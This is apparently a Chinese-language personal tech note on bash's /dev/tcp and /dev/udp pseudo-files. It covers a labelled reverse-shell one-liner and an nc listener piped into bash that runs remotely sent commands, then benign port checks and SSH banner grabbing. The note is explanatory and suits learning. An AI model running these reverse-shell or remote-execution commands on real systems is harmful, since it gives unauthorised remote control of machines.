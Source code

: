# /dev/tpc/host/port 文件

> reverse shell
>
> ```
> bash -i >& /dev/tcp/192.168.146.129/2333 0>&1
> ```
>
> 将stdin整合到stdout，然后将stdout 和 stderr 都从整合到`/dev/tcp/192.168.146.129`中。这里流的顺序一定不能改变，如果`0>&1`在`>&`后面的内容不再被识别报错。

虽然看起来像一个文件，但是实际并不存在。如果是一个合法的规则，bash(==这是bash特有的，所以zsh使用时会报错==)会尝试打开相关的tpc socket。同样的还有`/dev/udp/host/port`

我们在A使用nc监听10086端口，B创建文件主动连接

```
#A
root in /etc/ssh λ nc -lk -p 10086 | bash

#B
┌─────( root)─────(/etc) 
 └> $ echo "ls"  > /dev/tcp/8.135.0.171/10086

#A显示
root in /etc/ssh λ nc -lk -p 10086 | bash
moduli          sshd_config       ssh_host_dsa_key.pub    ssh_host_ed25519_key      ssh_host_rsa_key.pub
ssh_config      sshd_config.bak   ssh_host_ecdsa_key      ssh_host_ed25519_key.pub  ssh_import_id
ssh_config.bak  ssh_host_dsa_key  ssh_host_ecdsa_key.pub  ssh_host_rsa_key
```

也可以用来发送请求

```
┌─────( root)─────(/etc) 
 └> $ printf GET HTTP 1.1 /r/n'  > /dev/tcp/baidu.com/443

---

root in /opt λ tcpdump -i eth0 host baidu.com
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on eth0, link-type EN10MB (Ethernet), capture size 262144 bytes
18:21:03.819749 IP 192.168.80.200.55266 > 39.156.69.79.https: Flags [S], seq 1888363027, win 64240, options [mss 1460,sackOK,TS val 1940856432 ecr 0,nop,wscale 7], length 0
```

==结合timeout来测试连通性==

```
 ┌─────( root)─────(~) 
 └> $ timeout --preserve-status 1 echo > /dev/tcp/baidu.com/443;echo $?
0

 ┌─────( root)─────(~) 
 └> $ timeout --preserve-status 1 echo > /dev/tcp/baidu.com/999;echo $?
bash: connect: Connection refused
bash: /dev/tcp/baidu.com/999: Connection refused
1
```

SSH版本探测

```
[root@8d3d229c-4aab-4812-96b9-37c8bc47a1d8 ~]#  cat  < /dev/tcp/8.135.0.171/22
SSH-2.0-OpenSSH_7.6p1 Ubuntu-4ubuntu0.3
```

